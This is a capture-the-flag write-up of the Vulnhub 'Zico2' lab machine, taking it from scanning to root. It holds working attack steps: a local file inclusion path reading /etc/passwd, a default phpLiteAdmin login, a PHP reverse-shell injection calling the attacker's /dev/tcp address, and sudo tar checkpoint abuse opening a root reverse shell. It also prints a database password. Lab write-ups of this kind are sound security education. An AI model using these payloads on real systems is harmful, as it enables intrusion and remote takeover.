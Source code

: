 ```yaml
---
layout: post
title: Ziko2
---
```

Hello! Another week, another writeup! Wish I could always keep publishing with this rate ;) This time I worked on Ziko2 boot2root, as usual from  [Vulnhub](https://www.vulnhub.com/entry/zico2-1,210/). How does Author describe his challange?
>Zico's Shop: A Boot2Root Machine intended to simulate a real world cenario
Disclaimer:
By using this virtual machine, you agree that in no event will I be liable for any loss or damage including without limitation, indirect or consequential loss or damage, or any loss or damage whatsoever arising from loss of data or profits arising out of or in connection with the use of this software.
TL;DR - You are about to load up a virtual machine with vulnerabilities. If something bad happens, it's not my fault.
Level: Intermediate
Goal: Get root and read the flag file
Description:
Zico is trying to build his website but is having some trouble in choosing what CMS to use. After some tries on a few popular ones, he decided to build his own. Was that a good idea?
Hint: Enumerate, enumerate, and enumerate!
Thanks to: VulnHub
Author: Rafael (@rafasantos5)

## Recon
Let's start with standard nmap scan:
```bash
# nmap 192.168.0.100 -p- -sT -sV -O -n

Starting Nmap 7.50 ( https://nmap.org ) at 2017-11-02 13:11 EDT
Nmap scan report for 192.168.0.100
Host is up (0.00048s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http    Apache httpd 2.2.22 ((Ubuntu))
111/tcp   open  rpcbind 2-4 (RPC #100000)
44451/tcp open  status  1 (RPC #100024)
MAC Address: 08:00:27:98:69:CA (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 2.6.X|3.X
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:3
OS details: Linux 2.6.32 - 3.5
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.54 seconds
```

As I could expect from description, there's a HTTP server running on the machine. Besides that we have standard SSH service and RPC bind. Honestly I didn't get to test RPC bind as it turned out not to be neccesary to solve the challenge. I decide to focus on the HTTP server. First, I roam around the website through the browser. I allows me to discover */view.php?page=tools.html* page. Checking page parameter for Local File Inclusion turns out to be positive:
```
http://192.168.0.100/view.php?page=../../../../etc/passwd

root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/bin/sh bin:x:2:2:bin:/bin:/bin/sh sys:x:3:3:sys:/dev:/bin/sh sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/bin/sh man:x:6:12:man:/var/cache/man:/bin/sh lp:x:7:7:lp:/var/spool/lpd:/bin/sh mail:x:8:8:mail:/var/mail:/bin/sh news:x:9:9:news:/var/spool/news:/bin/sh uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh proxy:x:13:13:proxy:/bin:/bin/sh www-data:x:33:33:www-data:/var/www:/bin/sh backup:x:34:34:backup:/var/backups:/bin/sh list:x:38:38:Mailing List Manager:/var/list:/bin/sh irc:x:39:39:ircd:/var/run/ircd:/bin/sh gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh nobody:x:65534:65534:nobody:/nonexistent:/bin/sh libuuid:x:100:101::/var/lib/libuuid:/bin/sh syslog:x:101:103::/home/syslog:/bin/false messagebus:x:102:105::/var/run/dbus:/bin/false ntp:x:103:108::/home/ntp:/bin/false sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin vboxadd:x:999:1::/var/run/vboxadd:/bin/false statd:x:105:65534::/var/lib/nfs:/bin/false mysql:x:106:112:MySQL Server,,,:/nonexistent:/bin/false zico:x:1000:1000:,,,:/home/zico:/bin/bash 
```
After exhausting website's possibilties I go for more scanning:
```bash
# dirb http://192.168.0.100/ /usr/share/wordlists/dirb/common.txt 

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Tue Nov  7 14:00:43 2017
URL_BASE: http://192.168.0.100/
WORDLIST_FILES: /usr/share/wordlists/dirb/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.0.100/ ----
+ http://192.168.0.100/cgi-bin/ (CODE:403|SIZE:289)                                                                                                                                                               
==> DIRECTORY: http://192.168.0.100/css/                                                                                                                                                                          
==> DIRECTORY: http://192.168.0.100/dbadmin/                                                                                                                                                                      
==> DIRECTORY: http://192.168.0.100/img/                                                                                                                                                                          
+ http://192.168.0.100/index (CODE:200|SIZE:7970)                                                                                                                                                                 
+ http://192.168.0.100/index.html (CODE:200|SIZE:7970)                                                                                                                                                            
==> DIRECTORY: http://192.168.0.100/js/                                                                                                                                                                           
+ http://192.168.0.100/LICENSE (CODE:200|SIZE:1094)                                                                                                                                                               
+ http://192.168.0.100/package (CODE:200|SIZE:789)                                                                                                                                                                
+ http://192.168.0.100/server-status (CODE:403|SIZE:294)                                                                                                                                                          
+ http://192.168.0.100/tools (CODE:200|SIZE:8355)                                                                                                                                                                 
==> DIRECTORY: http://192.168.0.100/vendor/                                                                                                                                                                       
+ http://192.168.0.100/view (CODE:200|SIZE:0)                                                                                                                                                                     
                                                                                                                                                                                                                  
---- Entering directory: http://192.168.0.100/css/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                                                                  
---- Entering directory: http://192.168.0.100/dbadmin/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
					
---- Entering directory: http://192.168.0.100/img/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                                                                  
---- Entering directory: http://192.168.0.100/js/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                                                                  
---- Entering directory: http://192.168.0.100/vendor/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
-----------------
END_TIME: Tue Nov  7 14:00:49 2017
DOWNLOADED: 4612 - FOUND: 8
```

The most interesting 'hidden' folder turns out to be dbadmin. I contains test_db.php file, which is a password protected phpLiteAdmin.
![Login page]({{ "/images/zico/login.png" }})
Googling informs me that default password for that phpLiteAdmin is 'admin'. I try that and bingo! I'm inside:
![Login page]({{ "/images/zico/loggedin.png" }})

Inside a test_users database there are two users with MD5 hashed passwords. I reversed both of therm, unfortunately it didn't allow me to log to SSH, or anywhere else.

I need to try something else. More googling reveal another security problem with this script. According to [Exploit Database](https://www.exploit-db.com/exploits/24044/) it is possible to place arbitrary PHP code on the server.

## Shell
In order to gain shell I need to combine both vulnerabilities I found (LFI and phpLiteAdmin Remote PHP Code Injection). First I use the phpLiteAdmin to create 'ownd.php', which will be placed under '/usr/databases/ownd.php'. Then, I use table name to place PHP reverse shell code inside the file:
```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.0.20/1234 0>&1'");?>
```
Navigating to */view.php?page=../../../../usr/databases/ownd.php* runs the reverse shell code, and on my attacking machine listener is granted with restricted shell:
```
# nc -nlp 1234
bash: no job control in this shell
www-data@zico:/var/www$ whoami
whoami
www-data
```
Navigating to */home/zico* reveals some of various CMS and simmiliar junk. First I thought it can't be too interesting, but then I looked into */home/zico/wordpress/wp-config.php*:
```php
<?php
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'zico');

/** MySQL database username */
define('DB_USER', 'zico');

/** MySQL database password */
define('DB_PASSWORD', 'sWfCsfJSPV9H3AmQzw8');

/** MySQL hostname */
define('DB_HOST', 'zico');

/** Database Charset to use in creating database tables. */
define('DB_CHARSET', 'utf8');

/** The Database Collate type. Don't change this if in doubt. */
define('DB_COLLATE', '');
```
DB_USER and DB_NAME properties seem to reveal another credentials. I try my luck again for some password reuse, and this time I manage to log into SSH as Zico!

## Privilege escalation
Last thing left to do is escalate the privileges to root. In order to find a way i play around with sudo:
```
zico@zico:~$ sudo -l
Matching Defaults entries for zico on this host:
    env_reset, exempt_group=admin,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User zico may run the following commands on this host:
    (root) NOPASSWD: /bin/tar
    (root) NOPASSWD: /usr/bin/zip
```
As it turn out I can use tar as root without giving the password. I start to look for a possibility to gain interactive shell using that program. A little googling gives informs me, that there is a --checkpoint-action parameter that can be used to execute bash command. So, again I turn to my trusty reverse-shell one liner:
```bash
sudo tar -zxvf zico-history.tar.gz --checkpoint=1 --checkpoint-action=exec=bash -i >& /dev/tcp/192.168.0.20/1235 0>&1
```
Again, listener on attackers machine is granted with shell, this time with root privileges:
```
# nc -nlp 1235
whoami
root
cd /root
ls
flag.txt
cat flag.txt
#
#
#
# ROOOOT!
# You did it! Congratz!
# 
# Hope you enjoyed! 

```

## Summary
That's it! We gained root on victim's machine. Thank's for reading, and just like machine's author I hope you enjoyed my writeup!